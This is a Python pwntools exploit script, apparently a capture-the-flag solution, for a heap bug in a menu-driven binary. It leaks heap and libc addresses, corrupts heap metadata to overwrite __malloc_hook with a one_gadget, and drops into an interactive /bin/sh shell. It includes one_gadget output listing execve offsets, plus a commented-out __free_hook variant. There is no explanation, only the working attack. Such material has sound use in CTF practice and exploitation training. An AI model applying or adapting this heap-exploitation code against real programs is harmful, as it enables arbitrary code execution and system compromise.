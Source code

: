 ```py
heap = x.split(b'Comment: ')[1].split(b'1)')[0]
heap = unpack(heap, 'all')
log.success(f'heap: {heap:x}')

x = heap & 0xffffffff
for i in range(8):
    add(heap + 0x200, 100, b'\x00' * 8)

add(heap + 0x200, 10, b'\x00' * 8)

view(7)

edit(8, 1234, 16, p64(0xdead) + p64(0x404020))

view(7)
libc = ELF('./libc.so.6')
x = io.recvline()
log.info(x)
x = x.split(b'Comment: ')[1].split(b'1)')[0]
x = unpack(x, 'all')
libc.address = x - libc.sym.puts
log.success(f'libc: {libc.address:x}')

edit(8, 1234, 16, p64(0xdead) + p64(heap+0x10))

# edit(7, 1234, 100, p64(libc.sym['__free_hook']))

# add(0, 100, b'/bin/sh\x00')
# add(0, 100, p64(libc.sym.system))

edit(7, 1234, 100, p64(libc.sym['__malloc_hook']))

add(0, 100, b'/bin/sh\x00')
add(0, 100, p64(libc.address + 0xe69a1))

'''
0xe699e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe69a1 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe69a4 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x10af39 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
          
'''

io.interactive()
```

